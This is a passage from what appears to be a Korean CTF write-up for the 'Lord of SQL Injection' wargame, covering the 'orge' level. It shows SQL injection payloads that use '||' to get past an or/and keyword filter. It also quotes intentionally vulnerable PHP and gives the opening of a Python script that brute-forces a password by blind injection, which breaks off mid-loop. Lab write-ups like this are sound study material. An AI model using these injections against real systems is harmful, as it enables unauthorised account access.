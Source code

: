 이번에는 `or` 그리고 `and` 논리연산자 사용이 불가능한 문제이다.

<br>

## writeup

"또는" 을 의미하는 연산자는 `or` 이외에도 `||` 기호도 있다.

```
pw=' || id='admin
```

![image-20220608162149785](../img/image-20220608162149785.png)

<br><br><br>

-----


# LOS: orge

## 삽질

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```



<br>

## writeup

앞선 두 문제 풀이의 개념을 결합하면 되는 문제이다.



```python
import requests
cookie = {'PHPSESSID':'timor8st6kt5bc5iblpcdm225b'}
flag = 1

def my_request(upw):
	url = f'https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php?pw={upw}'
	response = requests.get(url=url,cookies=cookie)
	return response

def find_pw(res):
	for i in range(38,127):
		upw = f'1\' || pw like \'{res}'+chr(i)+'%\' --+'
		response = my_request(upw)
```